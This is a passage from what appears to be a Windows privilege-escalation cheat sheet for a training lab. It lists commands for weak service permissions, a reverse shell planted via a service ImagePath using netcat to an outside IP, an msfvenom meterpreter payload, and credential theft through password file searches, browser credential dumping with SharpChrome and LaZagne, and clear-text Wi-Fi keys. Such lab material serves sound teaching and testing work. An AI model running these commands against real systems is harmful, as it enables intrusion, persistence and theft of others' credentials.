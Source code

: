 |`accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`|Checking for weak service ACLs in the Registry|
|`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`|Changing ImagePath with PowerShell|
|`Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`|Check startup programs|
|`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`|Generating a malicious binary|
|`get-process -Id 3324`|Enumerating a process ID with PowerShell|
|`get-service \| ? {$_.DisplayName -like 'Druva*'}`|Enumerate a running service by name with PowerShell|

## Credential Theft

|**Command**|**Description**|
|---|---|
|`findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`|Search for files with the phrase "password"|
|`gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password`|Searching for passwords in Chrome dictionary files|
|`(Get-PSReadLineOption).HistorySavePath`|Confirm PowerShell history save path|
|`gc (Get-PSReadLineOption).HistorySavePath`|Reading PowerShell history file|
|`$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`|Decrypting PowerShell credentials|
|`cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`|Searching file contents for a string|
|`findstr /si password *.xml *.ini *.txt *.config`|Searching file contents for a string|
|`findstr /spin "password" *.*`|Searching file contents for a string|
|`select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`|Search file contents with PowerShell|
|`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`|Search for file extensions|
|`where /R C:\ *.config`|Search for file extensions|
|`Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`|Search for file extensions using PowerShell|
|`cmdkey /list`|List saved credentials|
|`.\SharpChrome.exe logins /unprotect`|Retrieve saved Chrome credentials|
|`.\lazagne.exe -h`|View LaZagne help menu|
|`.\lazagne.exe all`|Run all LaZagne modules|
|`Invoke-SessionGopher -Target WINLPE-SRV01`|Running SessionGopher|
|`netsh wlan show profile`|View saved wireless networks|
|`netsh wlan show profile ilfreight_corp key=clear`|Retrieve saved wireless passwords|

## Other Commands

